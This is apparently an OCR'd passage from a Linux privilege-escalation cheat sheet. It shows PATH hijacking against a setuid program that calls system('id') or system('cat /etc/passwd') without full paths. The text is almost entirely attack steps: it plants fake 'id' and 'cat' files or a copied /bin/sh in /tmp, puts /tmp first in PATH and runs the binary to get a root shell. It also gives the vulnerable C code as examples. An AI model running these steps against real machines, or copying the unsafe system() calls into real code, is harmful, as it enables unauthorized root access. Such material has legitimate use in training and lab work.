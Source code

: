 `Method 2:`
```bash
cd /home/quac/script/
cp /bin/sh /tmp/ps
echo $PATH
export PATH=/tmp:$PATH
./shell
whoami
```

### If executing `id` in the shell, Example:
```bash
#include <unistd.h>
void main(){
	setuid(0);
	setgid(0);
	system("id");
}
```
Then:
```bash
$cd /tmp
$echo "/bin/bash" > id
$chmod 777 id
$echo $PATH
$export PATH=/tmp:$PATH
$cd /home/quac/script
$./shell
$whoami
```

### If executing `cat` in the shell, Example:
```bash
#include <unistd.h>
void main(){
	setuid(0);
	setgid(0);
	system("cat /etc/passwd");
}
```
Then:
```bash
$cd /tmp
$nano cat
/bin/bash
```
```bash
$chmod 777 cat
$ls -al cat
$echo $PATH
$export PATH=/tmp:$PATH
$cd /home/quac/script
$./shell
$whoami
```
